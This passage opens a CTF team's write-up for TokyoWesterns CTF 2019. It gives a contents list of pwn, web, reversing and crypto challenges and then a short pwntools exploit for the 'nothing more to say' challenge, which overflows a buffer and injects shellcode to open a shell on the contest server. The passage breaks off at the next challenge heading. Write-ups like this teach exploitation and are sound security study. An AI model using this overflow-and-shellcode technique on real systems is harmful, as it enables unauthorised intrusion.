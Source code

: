 # TokyoWesterns CTF 5th 2019


**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190831-tokyowesternsctf/) of this writeup.**


 - [TokyoWesterns CTF 5th 2019](#tokyowesterns-ctf-5th-2019)
   - [pwn](#pwn)
     - [nothing more to say](#nothing-more-to-say)
     - [SecureKarte](#securekarte)
     - [printf](#printf)
     - [Asterisk-Alloc](#asterisk-alloc)
     - [Multi Heap](#multi-heap)
     - [gnote](#gnote)
   - [web](#web)
     - [j2x2j](#j2x2j)
     - [PHP Note](#php-note)
       - [Recon](#recon)
       - [Exploit](#exploit)
       - [Failed Attempts](#failed-attempts)
     - [Oneline Calc](#oneline-calc)
       - [Flag 1 (read file as www-data)](#flag-1-read-file-as-www-data)
       - [Failed Attempts](#failed-attempts-1)
     - [Slack emoji converter Kai (unsolved)](#slack-emoji-converter-kai-unsolved)
   - [rev](#rev)
     - [Easy Crack Me](#easy-crack-me)
     - [meow](#meow)
     - [EBC](#ebc)
     - [Holy Grail War](#holy-grail-war)
   - [crypto](#crypto)
     - [real-baby-rsa](#real-baby-rsa)
     - [Simple Logic](#simple-logic)
     - [Happy!](#happy)
     - [M-Poly-Cipher](#m-poly-cipher)


## pwn

### nothing more to say

```python=
from pwn import *
context.arch = "amd64"
#r = process("./warmup")
r = remote("nothing.chal.ctf.westerns.tokyo", 10001)
r.sendlineafter(":)","A".ljust(0x100,"\x00")+p64(0x00601b00)+p64(0x4006db)+p64(0x601a00)*10)
r.sendline(asm(shellcraft.sh()).ljust(0x108,"\x00")+p64(0x601a00))
r.interactive()
```
### SecureKarte
